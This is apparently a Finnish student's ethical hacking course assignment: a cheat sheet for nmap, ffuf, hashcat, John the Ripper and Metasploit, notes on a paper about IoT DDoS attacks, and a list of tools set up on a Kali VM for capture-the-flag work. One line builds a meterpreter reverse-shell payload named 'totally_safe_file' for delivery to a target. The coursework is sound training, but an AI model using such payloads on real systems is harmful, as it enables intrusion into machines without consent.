 # H6 - Lähtölaskenta

Tehtävänannot luettavissa https://terokarvinen.com/2024/eettinen-hakkerointi-2024/

## A) Cheat Sheet

### Nmap 

- ``$ sudo nmap [asetukset] [kohde]``
  - ``-sS``: TCP-send skannaus (half-open connection). Palvelimen avoimien porttien ilmoituksiin ei lähetetä vastauksia.
  - ``-A``: Aggressiivinen skannaus
  - ``-p0-65535``: portit
   
### Ffuf

 - Kalissa sanakirjoja /usr/share/seclists
 - ``$ ./fuff -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://127.0.0.2:8000/FUZZ``
 - ``-ac``: autocalibrate
   - Manuaalisesti ``-fs``: filesize
 - ``-recursion``: skannaa myös löydetyt hakemistot
 - ``-e .log``: etsittävä tiedostomuoto
 -  ``-rate 2``: hakuja sekunnissa
 - ``-H "Host: FUZZ.ffuf.me"``

### Hashcat

 - ``$ hashid -m [hash]``
   - Todennäköisesti joku listan top3 tyypistä
 - ``$ hashcat -m [hashcat mode] '[hash]' -o ratkaistu.txt``

### John the ripper

 - Kaksiosainen: ``$ /john/run/zip2john testi.zip >testi.zip.hash`` & ``/john/run/john testi.zip.hash``

### Msf

 - ``$ sudo systemctl start postgresql``, ``$ msfdb init``, ``$ sudo msfconsole``
 - ``db_nmap``
 - ``services``
 - ``msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST="192.168.57.102" LPORT=1337 -f elf  > totally_safe_file``, ``$ chmod ugo+x totally_safe_file`` ennen toimitusta

### Yleiskomennot

 - ``$ script -fa log001.txt``

Lähde: https://github.com/aatuhorelli/tunkeutumistestaus/

## B) Review - A comprehensive study of DDoS attacks over IoT network and their countermeasures

 - IoT-laitteiden määrä on kasvanut räjähdysmäisesti viime vuosina. Vuoden 2022 arvion mukaan internetiin on yhdistetty noin 5 triloonaa laitetta.
 - Nopeasta kasvusta ja laitteiden suhteellisen alhaisesta laskentakyvystä ja -kapasiteetista johtuen niiden suojaus on vaikea toteuttaa.
 - IoT-laitteita on hyödynnetty esim. DDoS-hyökkäysten suorittamiseen. DDoS hyökkäysten määrä kasvussa.
   - Mirai botnetissä arviolta 3 miljoonaa laitetta. IoT-laitteilla toteutettu hyökkäys kaatoi esim. Twitterin ja Netflixin vuonna 2016.
     - Mm. itkuhälyttimet, turvakamerat ja muut vastaavat kodinlaitteet
     - HTTP-flood-hyökkäys
 - Tietoturvahaasteet:
   - Tunnistautuminen & käytönhallinta: alhainen laskentakapasiteetti ei mahdollista kryptografisten algoritmien käyttöä tunnistautumiseen
   - Luottamus: IoT-ekosysteemi pystyy keräämään monin eri tavoin dataa verkkoon
   - Yksityisyys: Haavoittuvuuksien hyväksikäyttö johtaa tietovuotoihin
   - Laiteturvallisuus: Yhteen verkon laitteeseen murtautuminen altistaa hyökkäyksen leviämiselle
 - DDoS-hyökkäysten motivaattoreita ovat mm. rahallinen hyöty, omien taitojen testaaminen, kosto, kybersota.


Lähde: P Kumari, AK Jain, 2023. A comprehensive study of DDoS attacks over IoT network and their countermeasures Luettavissa: https://www.karlancer.com/api/file/1704185551-QlzH.pdf. Luettu 12.5.2024.


## C) Valmiina lipunryöstöön

Loin uuden virtuaalikoneen Kali Linuxilla. Asensin ja tein tarvittaessa esikonfiguraatiot oletettavasti tarvitsemilleni ohjelmille:

 - Nmap
 - Hashid
 - Hashcat
 - John the Ripper
 - Metasploit Framework & PostgreSQL
 - Docker
 - OWASP ZAP & FoxyProxy


## Lähteet:

Terokarvinen.com. https://terokarvinen.com/2024/eettinen-hakkerointi-2024/

GitHub: Aatu Horelli. https://github.com/aatuhorelli/tunkeutumistestaus/

P Kumari, AK Jain, 2023. A comprehensive study of DDoS attacks over IoT network and their countermeasures Luettavissa: https://www.karlancer.com/api/file/1704185551-QlzH.pdf. Luettu 12.5.2024.


